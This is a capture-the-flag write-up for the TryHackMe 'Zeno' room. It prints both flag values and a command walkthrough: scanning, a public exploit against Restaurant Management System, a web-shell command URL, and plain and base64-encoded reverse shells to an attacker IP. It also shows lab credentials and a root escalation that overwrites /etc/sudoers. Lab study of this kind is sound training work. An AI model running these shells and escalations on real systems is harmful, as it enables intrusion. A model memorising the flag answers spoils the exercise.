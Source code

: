 
# <div align="center">[Zeno](https://tryhackme.com/r/room/zeno)</div>
<div align="center">Do you have the same patience as the great stoic philosopher Zeno? Try it out!</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/b7ce2ee8-5239-4098-b407-3df142e4d9a9" height="200"></img>
</div>


## Task 1. Start up the VM
Perform a penetration test against a vulnerable machine. Your end-goal is to become the root user and retrieve the two flags:

```/home/{{user}}/user.txt```
```/root/root.txt```
The flags are always in the same format, where XYZ is a MD5 hash: THM{XYZ}

The machine can take some time to fully boot up, so please be patient! :)

The VM is booted up!
```
No Need
```

## Task 2. Get both flags
Good luck!
### Content of user.txt
```
THM{070cab2c9dc622e5d25c0709f6cb0510}
```
### Content of root.txt
```
THM{b187ce4b85232599ca72708ebde71791}
```
### Gained access as root user.
```
No answer needed
```

## Obtaining User.txt
```
nmap -sSCV -p- <IP>
gobuster dir -u http://<IP>:12340/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
searchsploit Restaurant Management System
python3 47520.py http://<IP>:12340/rms/
http://<IP>:12340/rms/images/reverse-shell.php/?cmd=id
sh -i >& /dev/tcp/ <my_own_IP>/4444 0>&1
echo L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xNC4xNC43OC84MCAwPiYxCg==|base64 -d|bash
nc -nvlp 4444
cat config.php
cat /etc/fstab
# username: zeno
# password: FrobjoodAdkoonceanJa
ssh edward@<IP>
ls
cat user.txt
```
## Root.txt
```
sudo -l
/bin/sh -c 'echo "edward ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
sudo /usr/sbin/reboot
sudo su
cat /root/root.txt
```
